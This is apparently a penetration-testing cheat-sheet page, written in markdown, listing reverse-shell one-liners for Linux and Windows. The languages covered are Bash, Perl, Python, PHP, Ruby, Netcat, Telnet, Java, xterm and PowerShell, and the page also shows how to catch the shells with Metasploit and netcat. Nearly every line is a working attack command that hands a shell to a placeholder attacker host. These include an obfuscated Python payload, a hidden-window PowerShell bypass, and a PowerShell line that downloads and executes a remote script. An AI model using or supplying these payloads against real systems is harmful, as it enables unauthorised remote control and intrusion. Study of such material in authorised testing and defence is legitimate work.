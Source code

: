 ```yaml
---
layout: default
title: Reverse Shells
tags:
    - bash
    - java
    - netcat
    - nc
    - perl
    - php
    - python
    - ruby
    - telnet
    - xterm
---
```

# Reverse Shells

### Linux
**Bash**

```shell
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

```shell
0<&196;exec 196<>/dev/tcp/[IP]/[PORT]; sh <&196 >&196 2>&19
```

```shell
exec 5<>/dev/tcp/[IP]/[PORT]
while read line 0<&5; do $line 2>&5 >&5; done
```

```shell
exec 5<>/dev/tcp/[IP]/[PORT]; cat <&5 | while read line; do $line 2>&5 >&5; done
```

```shell
sh -i >& /dev/udp/[IP]/[PORT] 0>&1
```
- UDP, use `-u` flag with nc for catching locally

**Perl**

```shell
perl -e 'use Socket;$i="[IP]";$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```shell
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
- no `/bin/sh`

**Python**

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**

```shell
php -r '$sock=fsockopen("[IP]",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Ruby**

```shell
ruby -rsocket -e'f=TCPSocket.open("[IP]",[PORT]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- no `/bin/sh`

**Netcat**

```shell
nc -e /bin/sh [IP] [PORT]
```

```shell
/bin/sh | nc [IP] [PORT]
```

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f
```
- no `-e` flag

**Telnet**

```shell
rm -f /tmp/p; mknod /tmp/p p && telnet [IP] [PORT] 0/tmp/p
```

```shell
telnet [IP] [PORT1] | /bin/bash | telnet [IP] [PORT2]
```
- listen locally on [PORT2]

**Java**

```java
r = Runtime.getRuntime();
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[PORT];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);
p.waitFor();
```

**xterm**

```shell
xterm -display [IP]:1
```
- Port 6001
- Locally, to catch the incoming session on port 6001 `Xnest :1`
- Locally, to authorise the target's connection `xhost +[TARGETIP]`

---

### Windows
**Perl**

```powershell
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**Powershell**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("[IP]",[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('[IP]',[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
- [staged](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)

**Python**

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('[IP]', [PORT])), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

**Ruby**

```powershell
ruby -rsocket -e 'c=TCPSocket.new("[IP]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
---

### Catching Shells
**Metasploit**

```shell
use exploit/multi/handler
```

**Netcat**

```shell
nc -lvnp [PORT]
```
- can use `-vv`/`-vvv` to debug with extra verbosity

### Useful links:
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
- <http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>
